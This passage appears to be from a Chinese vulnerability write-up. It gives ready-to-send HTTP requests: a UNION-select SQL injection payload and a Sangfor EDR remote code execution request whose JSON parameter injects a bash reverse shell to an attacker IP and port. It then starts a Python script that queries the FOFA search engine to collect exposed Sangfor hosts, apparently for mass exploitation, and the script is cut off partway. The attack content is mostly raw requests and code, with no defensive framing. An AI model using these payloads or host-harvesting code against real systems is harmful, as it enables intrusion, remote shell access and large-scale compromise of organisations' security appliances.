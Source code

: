 Cookie: PHPSESSID=ijqtopbcbmu8d70o5t3kmvgt57

Content-Type: application/x-www-form-urlencoded

Content-Length: 201

t=l&e=0&s=t&l=1&vid=1+union select 1,2,3,4,5,6,7,8,9,substr('a',1,1),11,12,13,14,15,16,17,18,19,20,21,22--+&gid=0&lmt=10&o=r_Speed&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=@。。

3. 深信服 EDR RCE 漏洞

POST /api/edr/sangforinter/v2/cssp/slog_client?token=eyJtZDUiOnRydWV9 HTTP/1.1

Host: xx.x.x.x

Connection: close

Accept-Encoding: gzip, deflate

Accept: */*

User-Agent: python-requests/2.22.0

Content-Length: 77

{"params": "w=123\"'1234123'\"|bash -i>& /dev/tcp/ip/port 0>&1"}

![](https://mmbiz.qpic.cn/mmbiz_png/BibfH6dHpibZJdqp1Zh96BCINdMBXZtC9iaalqlpBkFUibdribpE8mpaea5RBIoqYtBP4wrDq5XwaIJBtAbbOXVkibRA/640?wx_fmt=png)

#coding:utf-8

import requests,json,sys

import re

import warnings

warnings.filterwarnings("ignore")

qbase64 = "dGl0bGU9IlNBTkdGT1Lnu4jnq6%2Fmo4DmtYvlk43lupTlubPlj7Ai"

email = ""

key = ""

timeout = 5

headers={

    "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36"

}

def getFofaAssest():

    result = []

    url = "https://fofa.so/api/v1/search/all?email=%s&key=%s&qbase64=%s&page=1&size=10000&fields=host,title" %(email,key,qbase64)

    res = requests.get(url)
